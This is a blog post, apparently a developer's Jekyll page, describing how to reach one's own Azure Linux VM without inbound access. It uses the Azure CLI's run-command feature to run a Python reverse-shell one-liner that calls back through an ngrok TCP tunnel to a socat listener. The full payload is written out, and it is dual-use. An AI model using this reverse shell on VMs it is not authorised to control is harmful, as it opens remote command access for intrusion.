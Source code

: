 ```yaml
---
layout: post
title: "Reverse shell to your Azure VM without inbound access"
date: 2021-02-23
tags: azure linux
favorite: "true"
permalink: reverse-shell-azure
---
```


> **Purpose:** 
> For any Azure Compute Linux VM where you have permission to execute one-off commands via the Azure CLI, 
> issues a reverse shell command to the VM and sends the shell back to you over TCP (via an ngrok tunnel)

There are many practical reasons - whether due to cost constraints or lack of necessity - to not attach a public IP address/allow inbound acccess to an Azure Compute VM.  Nevertheless, once in a while it may be convenient to get a shell on a VM to tweak a setting or debug a problem. One solution would be to simply attach a public IP to the VM. In an ad-hoc situation, the solution I propose below is quick and easy once you have the tools set up. 

This solution aims to **replace** scenarios where you'd want to use the Azure dashboard's [integrated serial console](linux-diagnose-agent.md#azure-console).  To use the serial console, you needed to jump through several hoops and interface with the (buggy and not-too-fun-to-use) web console. This approach uses the Azure CLI's ability to [issue one-off shell commands to the VM](https://docs.microsoft.com/en-us/azure/virtual-machines/linux/run-command).  We are exploiting that feature to create a reverse shell back to our computer through a TCP connection.  We use ngrok to expose a TCP port on our local machine.

> Note that in this post I don't go through the process of setting up an encrypted TCP connection between your machine and the VM.  Following [this post by erev0s](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/#encrypted-reverse-shell) illustrates one such way to encrypt your connection with on an SSL layer.

## How it works

For an Azure VM with OUTBOUND internet access, but with NO INBOUND ports open - the script:

1. Spawns an ngrok TCP relay over local port 56760
2. Spawns a socat tcp listener on port 56760

Essentially: 

```bash
ngrok tcp 56760
socat file:`tty`,raw,echo=0 tcp-listen:56760
```

2. Does some regex magic to find out the random ngrok URL and port

3. Uses the Azure CLI to send a shell command to our VM with [az vm run-command invoke](https://docs.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az_vm_run_command_invoke).
4. The payload is a standard python reverse shell one-liner that makes a connection back to our listener, and spawning a `pty` with the command `/bin/bash`.

```bash
az vm run-command invoke -g $RESOURCE_GROUP -n $VMID --command-id RunShellScript --scripts "export RHOST=\"$HOST\";export RPORT=$PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'"
```

### Prereqs

| Prereq.   | MacOS Install          | WSL2 Install                                                           |
|-----------|------------------------|------------------------------------------------------------------------|
| socat     | `brew install socat`     | `sudo apt install socat`                                                 |
| ngrok     | `brew install ngrok`     | `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip -O ngrok.zip && unzip ngrok  && sudo cp ngrok /usr/local/bin && chown $(whoami) /usr/local/bin/ngrok && chmod +x /usr/local/bin/ngrok` |
| Azure CLI | `brew install azure-cli` | `curl -sL https://aka.ms/InstallAzureCLIDeb \| sudo bash`                |
| jq        | `brew install jq`        | `sudo apt install jq`                                                    |

### Additional Setup

1. Create a free ngrok account and run `ngrok authtoken <YOUR TOKEN>` in order to use their tcp relay.
2. Run `az login` to login to the Azure CLI with your credentials. 

## Usage

To use the script on a *nix system, simply run the bash script with your VM's name, resource group, and subscription.  Note you'll need this VM to be visible to you via the Azure CLI with adequate permissions to queue a `run-command`.

Two terminals will be spawned:
 - The `socat` listener window (listening for the reverse shell connection/where we will interact with our Azure VM). 
 - The `ngrok` window running the TCP tunnel facilitating the connection (you can mostly ignore this window, given you do not see an error).

```
./reverse-shell-azure.sh <VM NAME> [RESOURCE_GROUP] [SUBSCRIPTION]
```

----

You can clone the entire [**reverse-shell-azure.sh**](https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae#file-reverse-shell-azure-sh) from this gist.

Make sure to place the following [revshell.ngrok.yml](https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae#file-revshell-ngrok-yml) next to the script when executing

```yaml
tunnels:
  reverseshell:
    addr: 56760
    proto: tcp
```

<!-- I'd embed this gist, but embedding gists on this blog doesn't look that pretty  -->
<!-- <script src="https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae.js"></script> -->
